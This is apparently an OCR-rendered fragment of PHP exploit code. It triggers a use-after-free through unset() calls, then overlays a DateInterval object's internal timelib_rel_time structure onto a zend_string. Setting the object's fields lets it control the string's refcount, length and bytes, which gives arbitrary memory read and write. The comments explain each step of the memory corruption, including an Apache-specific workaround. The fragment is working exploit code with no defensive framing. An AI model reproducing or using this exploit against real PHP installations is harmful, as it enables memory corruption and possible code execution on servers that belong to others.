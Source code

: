             o('  Unsetting both variables and setting $protector');
            # UAF here, $this is usable despite being freed
            unset($y[0]);
            # Protect $this's freed blocks
            unset($p);

            # Protect $p's timelib_rel_time structure
            $protector = ".$_protector";
            # !!! This is only required for apache
            # Got no idea as to why there is an extra deallocation (?)
            if(version_compare(PHP_VERSION, '7.2') >= 0)
                        $room[] = "!$_protector";

            o('  Creating DateInterval object');
            # After this line:
            # &((php_interval_obj) x).timelib_rel_time == ((zval) abc).value.str
            # We can control the structure of $this->abc and therefore read/write
            # anything that comes after it in memory by changing its size and
            # making in-place edits using $this->abc[$position] = $char
            $x = new DateInterval('PT1S');
            # zend_string.refcount = 0
            # It will get incremented at some point, and if it is > 1,
            # zend_assign_to_string_offset() will try to duplicate it before making
            # the in-place replacement
            $x->y = 0x00;
            # zend_string.len
            $x->d = 0x100;
            # zend_string.val[0-4]
            $x->h = 0x13121110;
